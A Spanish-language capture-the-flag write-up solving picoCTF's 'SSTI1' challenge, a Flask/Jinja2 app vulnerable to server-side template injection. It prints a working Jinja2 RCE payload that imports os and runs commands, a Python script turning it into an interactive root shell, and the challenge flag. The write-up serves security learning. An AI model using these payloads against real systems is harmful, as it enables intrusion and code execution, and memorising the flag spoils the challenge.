



# STTI1 PicoCTF (Easy)

## Contexto de la maquina

### Trayectoria STTI1

<figure><figcaption></figcaption></figure>

### Descripción general

La máquina **SSTI1** es un desafío de **picoCTF** enfocado en **Server-Side Template Injection (SSTI)** en aplicaciones web basadas en **Python y Flask**. La aplicación web expone un formulario donde los usuarios pueden enviar contenido que luego es procesado y renderizado mediante **Jinja2**, el motor de plantillas de Flask.

Este escenario simula un entorno real donde la **mala validación de entradas en plantillas** puede derivar en **ejecución remota de código (RCE)**, incluso con privilegios elevados, lo que permite comprometer completamente el sistema y acceder a información sensible como la **flag** del CTF.

El laboratorio permite practicar:

* Identificación y explotación de **SSTI**
* Escalada de privilegios a nivel de proceso web (root)
* Automatización de la explotación mediante scripts Python

### Vulnerabilidades identificadas

<figure><figcaption></figcaption></figure>

## Despliegue del CTF

En la propia pagina buscaremos el `CTF`, dentro veremos un boton llamado `Launch Instance`, una ves desplegado nos aparecera `here` donde se encuentra el `dominio` junto con el puerto asociado al mismo.

El objetivo de estos `CTFs` es encontrar la `flag` final.

## STTI

<figure><figcaption></figcaption></figure>

En este caso no es necesario realizar un escaneo de `nmap` ya que directamente nos dan el puerto y el `dominio` resuelto, si entramos a dicho `dominio` veremos lo siguiente.

<figure><figcaption></figcaption></figure>

Vemos un campo en el que podremos ingresar palabras, vamos a utilizar `whatweb` para ver que tecnologias hay por detras.

```shell
whatweb http://rescued-float.picoctf.net:57583/
```

Info:

```
http://rescued-float.picoctf.net:57583/ [200 OK] Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.8.10], IP[3.20.79.114], Python[3.8.10], Title[SSTI1], Werkzeug[3.0.3]
```

Veremos que hay un `python3` por detras lo que podemos creer que es un servidor de `flask` el cual ya nos da una pista de que puede ser vulnerable a un `SSTI` y generalmente estas aplicaciones corren por detras un `jinja2`.

Vamos a probar a meter el siguiente `payload`:

```shell
{{ 7 * 7 }}
```

Info:

<figure><figcaption></figcaption></figure>

Veremos que se esta ejecutando de forma correcta, por lo que probaremos algo mas avanzado:

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Info:

<figure><figcaption></figcaption></figure>

Vemos que sigue funcionando y encima lo esta corriendo como `root`, por lo que vamos a montarnos un pequeño script para tener una `shell` interactiva en la cual podamos enviar comandos y recibir dicho `output` desde `python3`.

### Explotación

> shell.py

```python
#!/usr/bin/env python3

import requests
import re

base_url = "http://rescued-float.picoctf.net:57583/announce"

while True:
    cmd = input("[~] > ")

    data_post = {"content": '{{self.__init__.__globals__.__builtins__.__import__("os").popen("' + cmd + '").read()}}'}

    r = requests.post(base_url, data=data_post)
    response = re.findall(r'align="center">(.*)</h1>', r.text, re.DOTALL)[0]
    print(response)
```

Ahora vamos a ejecutarlo de esta forma:

```shell
python3 shell.py
```

Info:

```
[~] > ls -la
total 12
drwxr-xr-x 1 root root   25 Jan 19 15:18 .
drwxr-xr-x 1 root root   23 Jan 19 15:18 ..
drwxr-xr-x 2 root root   32 Jan 19 15:18 __pycache__
-rwxr-xr-x 1 root root 1241 May  1  2025 app.py
-rw-r--r-- 1 root root   58 Aug 21 19:27 flag
-rwxr-xr-x 1 root root  268 May  1  2025 requirements.txt

[~] > cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
[~] >
```

Veremos que esta funcionando y si listamos el directorio veremos la `flag` directamente, la cual si leemos la obtendremos de forma correcta.

> flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```
